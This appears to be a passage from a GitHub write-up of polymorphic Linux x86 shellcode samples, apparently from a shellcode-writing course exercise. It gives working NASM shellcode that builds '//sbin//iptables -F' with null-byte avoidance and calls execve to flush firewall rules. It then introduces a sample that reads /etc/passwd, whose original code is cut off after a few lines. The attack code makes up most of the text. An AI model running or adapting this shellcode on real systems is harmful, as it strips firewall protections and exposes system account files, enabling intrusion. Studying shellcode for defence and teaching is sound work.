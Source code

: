```nasm
section .text

global _start

_start:

mov eax, 0x2d5a5a46     ; 0x5a462d5a (shifted 16 bits)
ror eax, 0x10
push eax
add eax, 0x191f3f08
push eax
sub eax, 0x11f0fbf9
push eax
sub eax, 0x32450202
add eax, 0x2            ; avoid null-byte
push eax
add eax, 0x3343c0c6
push eax

mov esi, esp            ; esi -> "//sbin//iptablesZ-FZ" 
mov ebx, esi            ; const char *filename
cdq                     ; edx = 0
mov eax, edx            ; eax = 0
mov byte [esi+16], dl   ; null out Z byte: //sbin//iptablesZ -> "//sbin//iptables"
mov byte [esi+19], dl   ; null out Z byte: -FZ -> "-F"
push edx                ; null-terminatation for argv
lea eax, [esi+17]       ; char *const argv[1] -> "-F"
push eax                ; 
push esi                ; char *const argv[0] -> "//sbin//iptables"
mov ecx, esp            ; char *const argv[] -> "//sbin//iptables", "-F"
push edx                ; NULL byte for envp[]
mov eax, edx            ; eax = 0
mov edx, esp            ; char *const envp[] -> NULL
add eax, 0xb            ; sys_execve
int 0x80
```

## Sample 3: Linux/x86 - File Reader /etc/passwd

- Original size: 76 bytes
- Polymorphic size: 90 bytes (18% increase)
- Source: [http://shell-storm.org/shellcode/files/shellcode-73.php](http://shell-storm.org/shellcode/files/shellcode-73.php)

### Original code

```nasm
section .text

global _start

_start:

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
jmp two

one:

pop ebx
mov al, 0x5
```